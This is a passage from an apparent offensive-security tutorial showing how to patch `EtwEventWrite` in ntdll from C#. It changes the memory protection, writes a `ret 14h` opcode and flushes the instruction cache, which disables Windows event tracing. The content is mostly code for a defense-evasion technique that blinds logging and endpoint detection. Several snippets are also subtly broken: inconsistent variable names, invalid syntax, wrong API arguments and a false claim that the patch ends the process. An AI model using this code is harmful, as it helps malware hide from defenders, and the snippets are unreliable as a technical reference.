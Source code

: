 ETW patching can be broken up into:
1. Obtaining a handle for `EtwEventWrite`
2. Modify memory permissions of the function
3. Write opcode bytes to memory
4. Reset memory permissions of the function (optional)
5. Flush the instruction cache (optional)

Firstly, to obtain the handle. This function is stored within `ntdll`. we will load the library and then obtain the handle using `GetProcAddress`.
```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```
Then, to modify the memory permissions to allow us to write to the function. These are defined by the `flNewProtect` parameter, and we can use `0x40` to enable X,R, or RW access.
```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```
Then, because we are writing to a function and not a process, we need to use `Marshal.Copy` to write our opcode. Which we know by having checked the assembly earlier.
```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```
At step four, we can begin cleaning our steps by restoring memory permissions to normal
```cs
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```
Finally, ensuring the patched function will be executed from the instruction cache
```csharp
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```
Having compiled and execute this, we can view the disassembled function again to observe the patch.
```wasm
779f23c0 c21400		    ret	14h
779f23c3 00ec		      add	ah, ch
779f23c5 83e4f8		    and	esp, 0FFFFFFF8h
779f23c8 81ece0000000	sub	esp, 0E0h
```
And here we have our confirmation. Once the function is patched in memory, it will always return (end the process) when `EtwEventWrite` is called.
